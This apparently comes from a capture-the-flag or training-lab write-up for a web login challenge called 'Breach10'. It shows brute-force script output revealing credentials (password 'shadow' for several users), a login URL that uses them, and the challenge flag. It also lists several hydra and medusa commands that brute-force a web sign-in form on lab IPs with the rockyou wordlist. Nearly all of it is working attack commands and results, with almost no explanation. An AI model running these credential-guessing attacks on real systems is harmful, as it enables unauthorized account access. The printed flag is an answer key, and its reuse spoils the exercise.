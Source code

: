 

db from rockyou wordlist
```
➜  Breach10- git:(main) ✗ sh Ressources/script.sh 10.12.100.231 Ressources/db.txt Ressources/db.txt 
Success: Credentials found, Username - eugene & Password - shadow
Success: Credentials found, Username - evelyn & Password - shadow
Success: Credentials found, Username - excel & Password - shadow
```

`http://IP/?page=signin&username=eugene&password=shadow&Login=Login`

THE FLAG IS : B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2

hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt 10.11.100.96 http-post-form "/index.php?page=signin:username=^USER^&password=^PASS^&Login=Login:Incorrect username or password." > /home/kali/Desktop/pwd

hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt -t 4 -w 5 10.11.100.96 http-get "/index.php?page=signin&username=^USER^&password=^PASS^&Login=Login"

medusa -h 10.12.100.231 -U /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/index.php?page=signin -T 5 -F

medusa -h 10.12.100.231 -U /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt -M http -m FORM:POST:/index.php?page=signin:username=^USER^&password=^PASS^:Incorrect
